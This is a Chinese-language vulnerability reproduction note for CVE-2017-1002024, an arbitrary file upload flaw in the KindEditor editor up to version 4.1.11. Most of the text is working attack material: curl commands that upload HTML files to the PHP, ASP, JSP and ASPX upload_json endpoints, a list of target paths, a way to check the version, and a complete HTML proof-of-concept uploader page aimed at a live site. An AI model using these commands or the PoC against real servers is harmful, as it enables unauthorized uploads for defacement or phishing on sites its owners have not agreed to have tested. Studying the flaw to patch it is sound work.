 （CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞
=================================================

一、漏洞简介
------------

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

二、漏洞影响
------------

Kindeditor \<=4.1.11

三、复现过程
------------

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 
​```返回值为路径 
```



> json文件地址

    /asp/upload_json.asp
    
    /asp.net/upload_json.ashx
    
    /jsp/upload_json.jsp
    
    /php/upload_json.php

> 上传路径

    kindeditor/asp/upload_json.asp?dir=file
    
    kindeditor/asp.net/upload_json.ashx?dir=file
    
    kindeditor/jsp/upload_json.jsp?dir=file
    
    kindeditor/php/upload_json.php?dir=file

> 查看版本信息

    http://www.0-sec.org/kindeditor//kindeditor.js

![](resource/(CVE-2017-1002024)Kindeditor=4.1.11上传漏洞/media/rId24.jpg)

> 构造poc

    <html><head>
    <title>Uploader</title>
    <script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
    <script>
    KindEditor.ready(function(K) {
    var uploadbutton = K.uploadbutton({
    button : K(‘#uploadButton‘)[0],
    fieldName : ‘imgFile‘,
    url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
    afterUpload : function(data) {
    if (data.error === 0) {
    var url = K.formatUrl(data.url, ‘absolute‘);
    K(‘#url‘).val(url);}
    },
    });
    uploadbutton.fileBox.change(function(e) {
    uploadbutton.submit();
    });
    });
    </script></head><body>
    <div>
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
    <input type="button" id="uploadButton" value="Upload" />
    </div>
    </body>
    </html>
